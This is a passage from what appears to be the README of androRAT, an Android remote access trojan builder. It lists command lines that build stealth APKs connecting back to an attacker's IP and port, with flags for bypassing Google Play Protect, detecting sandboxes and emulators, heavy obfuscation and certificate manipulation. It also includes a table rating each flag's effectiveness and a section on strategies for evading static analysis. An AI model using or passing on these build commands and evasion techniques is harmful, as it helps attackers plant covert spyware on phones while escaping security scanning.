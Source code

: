 ### Basic Stealth Mode
```bash
python3 server/androRAT.py --build --stealth -i 192.168.1.100 -p 8080 -o stealth_app.apk
```

### Maximum Evasion (All Techniques)
```bash
python3 server/androRAT.py --build \
    --stealth \
    --random-package \
    --anti-analysis \
    --play-protect-evasion \
    --advanced-obfuscation \
    --fake-certificates \
    -i 192.168.1.100 -p 8080 \
    -o maximum_stealth.apk
```

### Play Protect Bypass
```bash
python3 server/androRAT.py --build --play-protect-evasion --advanced-obfuscation -i IP -p PORT -o playstore_safe.apk
```

### Anti-Analysis Mode
```bash
python3 server/androRAT.py --build --anti-analysis --stealth -i IP -p PORT -o analysis_proof.apk
```

## 🔧 Evasion Options Explained

| Option | Description | Effectiveness |
|--------|-------------|---------------|
| `--stealth` | Basic stealth mode with string obfuscation | High |
| `--random-package` | Generate random legitimate package names | Medium |
| `--anti-analysis` | Enable sandbox and emulator detection | Very High |
| `--play-protect-evasion` | Bypass Google Play Protect specifically | Very High |
| `--advanced-obfuscation` | Advanced string and code encryption | High |
| `--fake-certificates` | Certificate manipulation for trust evasion | Medium |

## 🎯 Detection Bypass Strategies

### 1. Static Analysis Evasion
- **String Encryption**: All suspicious strings encrypted at compile-time
- **Code Obfuscation**: Class and method names randomized
- **Fake Functionality**: Legitimate-looking code paths and activities
- **Signature Variance**: APK signatures modified without breaking functionality

